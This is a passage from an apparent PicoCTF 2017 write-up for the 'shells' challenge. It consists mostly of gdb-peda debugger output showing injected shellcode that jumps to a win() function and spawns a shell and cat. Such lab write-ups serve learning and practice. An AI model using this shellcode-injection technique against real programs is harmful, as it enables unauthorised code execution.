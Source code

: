 ```
0024| 0xffffceb8 --> 0xffffcec8 --> 0x0 
0028| 0xffffcebc --> 0x8048657 (<main+71>:	mov    eax,0x0)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048601 in vuln ()
gdb-peda$ x/5i $eax
   0xf7fd3000:	push   0x8048540
   0xf7fd3005:	ret    
   0xf7fd3006:	or     al,BYTE PTR [eax]
   0xf7fd3008:	add    BYTE PTR [eax],al
   0xf7fd300a:	add    BYTE PTR [eax],al
```

From the above, we have inputted our shellcode and when examining the $eax as instructions, we see that our instructions did not get disrupted.

```
[----------------------------------registers-----------------------------------]
EAX: 0xf7fd3000 --> 0x4854068 
EBX: 0x0 
ECX: 0xf7fd3000 --> 0x4854068 
EDX: 0xa ('\n')
ESI: 0xf7faa000 --> 0x1b1db0 
EDI: 0xf7faa000 --> 0x1b1db0 
EBP: 0xffffceb8 --> 0xffffcec8 --> 0x0 
ESP: 0xffffce9c --> 0x8048603 (<vuln+163>:	leave)
EIP: 0x8048540 (<win>:	push   ebp)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804853b <frame_dummy+43>:	xchg   ax,ax
   0x804853d <frame_dummy+45>:	xchg   ax,ax
   0x804853f <frame_dummy+47>:	nop
=> 0x8048540 <win>:	push   ebp
   0x8048541 <win+1>:	mov    ebp,esp
   0x8048543 <win+3>:	sub    esp,0x8
   0x8048546 <win+6>:	sub    esp,0xc
   0x8048549 <win+9>:	push   0x8048700
[------------------------------------stack-------------------------------------]
0000| 0xffffce9c --> 0x8048603 (<vuln+163>:	leave)
0004| 0xffffcea0 --> 0xf7faa000 --> 0x1b1db0 
0008| 0xffffcea4 --> 0xf7fd3000 --> 0x4854068 
0012| 0xffffcea8 --> 0x7 
0016| 0xffffceac --> 0xf7fd3000 --> 0x4854068 
0020| 0xffffceb0 --> 0xf7faad60 --> 0xfbad2a84 
0024| 0xffffceb4 --> 0xffffcf74 --> 0xffffd132 ("/home/misskanari/fun/ctf/pico2017/PicoCtf2017-Write-up/level2/bin/shells_70/shells")
0028| 0xffffceb8 --> 0xffffcec8 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048540 in win ()
gdb-peda$ c
Continuing.
[New process 9504]
process 9504 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
[New process 9505]
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
process 9505 is executing new program: /bin/cat
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
```